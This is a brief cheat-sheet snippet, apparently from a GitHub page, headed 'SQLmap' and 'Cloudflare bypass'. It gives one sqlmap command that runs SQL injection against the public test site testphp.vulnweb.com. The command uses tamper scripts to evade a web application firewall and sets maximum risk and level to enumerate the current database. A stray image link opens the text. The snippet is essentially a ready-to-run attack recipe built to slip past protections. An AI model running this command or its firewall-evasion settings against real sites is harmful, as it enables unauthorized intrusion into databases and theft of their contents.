 <h1>SQLmap</h1>

### Cloudflare         .   bypass tamper=space2comment,between,randomcase
```
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1*" --batch --random-agent --risk=3 --level=5 --current-db --tamper=space2comment,between,randomcase --no-cast
```
